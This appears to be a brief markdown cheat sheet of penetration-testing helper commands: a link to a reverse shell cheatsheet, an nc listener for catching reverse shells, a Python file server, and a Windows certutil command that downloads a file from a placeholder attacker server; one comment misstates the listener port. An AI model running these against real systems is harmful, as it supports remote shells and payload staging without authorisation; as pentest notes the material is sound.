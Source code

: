 # Command Helpers


## General

- [Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Linux

```sh

nc -nvlp 1337 # Create listener on Port 12337 -> Used for reverse shell
python3 -m http.server 8000 # Create a local server in the current directory for file transfers later on


```


## Windows

```cmd
certutil -urlcache -f http://{your-server-ip}/{filename} {filename} # Basically wget but for windows
```
